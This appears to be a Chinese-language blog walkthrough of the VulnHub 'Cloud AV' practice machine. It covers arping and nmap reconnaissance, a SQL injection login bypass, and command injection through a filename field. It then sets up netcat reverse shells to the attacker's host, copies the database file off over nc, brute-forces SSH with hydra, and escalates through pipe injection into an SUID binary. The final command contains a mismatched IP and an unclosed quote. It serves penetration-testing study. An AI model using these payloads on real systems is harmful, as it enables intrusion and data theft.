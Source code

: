 ## 靶场链接

https://www.vulnhub.com/entry/boredhackerblog-cloud-av,453/

## 信息收集

练习1用了`arp-scan`，这种工具有可能会被防火墙流量监测到，所以可以使用`arping`, 这种工具基本`Linux`发行版都会自带。

```shell
for i in $(seq 1 255);do sudo arping -c 2 192.168.31.$i;done
```

根据回包来判断靶机地址。

下一步，扫描端口和服务。

```shell
sudo nmap -p- 192.168.31.197

sudo nmap -p22.8080 192.168.31.197
```

扫描到有`ssh`和`http`服务， `web`服务使用`Python`写的框架。

![](https://cos.kevinc.ltd/file/download?fileId=493)

![](https://cos.kevinc.ltd/file/download?fileId=494)

## 漏洞利用

访问Web服务，出现搜索框要求输入邀请码，有两种思路，暴破和注入。

![](https://cos.kevinc.ltd/file/download?fileId=495)

注入的小技巧：先对所有键盘输入的特殊字符进行暴破，若存在状态码和回包长度不一致的，很有可能可以用于构造闭合语句。

![](https://cos.kevinc.ltd/file/download?fileId=496)

![](https://cos.kevinc.ltd/file/download?fileId=497)

回包显示网页使用了`Flask`框架，且明确显示了数据库查询语句。

![](https://cos.kevinc.ltd/file/download?fileId=498)

尝试使用万能密码

```shell
" or 1=1--+
```

顺利登录，返回一个病毒扫描页面。文本框要求输入一个文件名称，逻辑一般是文件名拼接扫描命令，可以尝试命令执行。

![](https://cos.kevinc.ltd/file/download?fileId=499)

```shell
hello | ls
```

网页顺利回显了文件列表，证明了命令执行的存在。此时可以尝试写入反弹shell，因为框架使用`Python`写的，可以使用`Python`的反弹shell。 如果靶机环境存在  `netcat`, 也可以利用 `nc` 构建反弹shell。

```shell
# kali

nc -nvlp 4444

# 文本框

nc 192.168.31.157 4444 -e /bin/bash
```

监听端口后无回显，可能是因为靶机环境的 `netcat` 版本过低，并不支持 `-e` 参数。

将之删掉后，显示连接已建立。

![](https://cos.kevinc.ltd/file/download?fileId=500)

此时要用到的小技巧叫 `nc`串联：靶机反向连接 `kali` , 通过管道符将输入的命令传入 `/bin/bash`，然后再通过管道符将结果反向输出到 `kali` 的另一个端口上。

```shell
hello | nc 192.168.31.157 3333 | /bin/bash | nc 192.168.31.157 4444
```

![](https://cos.kevinc.ltd/file/download?fileId=501)

此时`kali`终端中左侧输入的命令，执行后结果在右侧可显示输出。

## 提权

查看一下文件权限和文件列表，除了数据库文件外，其他文件对提权并没有作用。使用`file database.sql`得到数据库是 `sqlites`，该数据库是本地数据库，然而靶机环境中并没有读取数据库的工具，所以要把它传输到`kali`中读取。

```shell
# kali

nc -nvlp 5555 > db.sql

# 靶机

nc 192.168.31.157 5555 < database.sql
```

传输完成后使用`kali` 的 `sqlite3` 工具进行数据库文件的读取。

![](https://cos.kevinc.ltd/file/download?fileId=502)

发现数据库中都是密码字段，同时在靶机上`cat /etc/passwd`可以获取用户字段，我们可以用这些信息各自构造一个字段来对靶机的`ssh` 服务进行暴破。

```shell
hydra -L usr.txt -P pass.txt ssh://192.168.31.197
```

![](https://cos.kevinc.ltd/file/download?fileId=504)

暴破并不成功，寻找另外一种思路。使用`pwd`看看当前目录，本目录下没有其他线索可用了，退到上一级目录看看。

通过文件列表，可以看到有一个可执行文件具有`suid`权限，且据推测应该由该目录下一个`.c`文件编译而来。

![](https://cos.kevinc.ltd/file/download?fileId=505)

通过查看`.c`文件可以看到，该文件的功能是对`cloudav`进行升级，且命令后带一个参数，可以利用`suid`尝试在参数上构造管道拼接提权。

```shell
./update_cloudav "a|nc 192.168.31.57 5555| /bin/bash | nc 192.168.31.157 6666 
```

同时在`kali`上监听这两个端口，可以发现提权成功。

![](https://cos.kevinc.ltd/file/download?fileId=506)